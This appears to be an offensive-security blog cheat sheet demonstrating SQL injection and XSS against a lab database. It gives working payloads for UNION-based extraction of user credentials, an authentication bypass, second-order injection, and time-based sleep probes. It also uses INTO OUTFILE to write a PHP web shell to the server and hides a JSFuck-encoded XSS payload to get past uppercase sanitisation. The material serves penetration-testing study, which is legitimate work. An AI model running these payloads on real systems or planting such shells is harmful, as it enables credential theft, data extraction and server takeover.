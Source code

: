```yaml
---
layout: post
title: "2024-06-18-sql injection xss playground"
date: 2024-06-18
categories: offensive-security-cheetsheets
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /sql-injection-xss-playground/
---
```


---
description: This is my playground for SQL injection and XSS
---

# SQL Injection & XSS Playground

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 15-59-39.png>)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 16-03-00.png>)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 16-16-06.png>)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 16-57-24.png>)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 19-15-16.png>)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](<../../.gitbook/assets/Screenshot from 2018-11-18 21-39-53.png>)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-19 22-43-46.png>)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 15-51-50.png>)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 15-53-52.png>)

```
```

## XSS

![](<../../.gitbook/assets/Peek 2018-11-17 20-17.gif>)

### Strtoupper Bypass

Say we have the following PHP code that takes `name` as a user supplied parameter:

```php
<?php
        $input=$_GET['name'];
        $sanitized=strtoupper(htmlspecialchars($input));   
        echo '<form action="">';
        echo "First name: <input type='text' name='name' value='".$sanitized."'><br>";
        echo "<input type='submit' value='Submit form'></form>";
        echo "</HTML></body>";
?>
```

Line 3 is vulnerable to XSS, and we can break out of the input with a single quote `'`:

```php
$sanitized=strtoupper(htmlspecialchars($input));   
```

For example, if we set the `name` parameter to the value of  `a'`, we get:

![](<../../.gitbook/assets/Screenshot from 2018-11-17 21-54-22.png>)

Note that the `a` got converted to a capital `A` and this is due to the `strtoupper` function being called on our input. What this means is that any ascii letters in our JavaScript payload will get converted to uppercase and become invalid and will not execute (i.e`alert() != ALERT()`).

To bypass this constraint, we can encode our payload using JsFuck, which eliminates all the letters from the payload and leaves us with this:

```php
A' onmouseover='[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 21-55-33.png>)

## References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt_BgG5YyI" %}
@spotheplanet
